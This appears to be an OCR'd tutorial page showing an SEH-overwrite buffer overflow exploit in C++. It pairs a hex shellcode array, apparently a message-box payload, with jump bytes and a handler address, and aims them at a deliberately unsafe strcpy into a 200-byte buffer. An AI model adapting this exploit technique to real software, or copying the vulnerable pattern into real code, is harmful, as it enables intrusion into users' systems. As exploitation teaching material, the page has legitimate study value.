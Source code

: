 |         | call/jmp dword ptr[ebp-0xc]  |
|         | call/jmp dword ptr[ebp-0x18] |

### Code

```cpp
#include <stdio.h>
#include <string.h>
#include <windows.h>

char shellcode[] = 
// shellcode start
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
// shellcode end
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90" // will be overfile with 00000000 00000000 by {__try __catch}
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90" // far jump and nop
"\xEB\xF6\x90\x90" // short jump and nop & return here
"\x0B\x0B\x29\x00" // address of call [ebp+30] in outside memory
;

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char* input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;

	__try
	{
		zero = 1 / zero;
	}
	__except(MyException()){}
}

int main()
{
	test(shellcode);
	return 0;
}
```
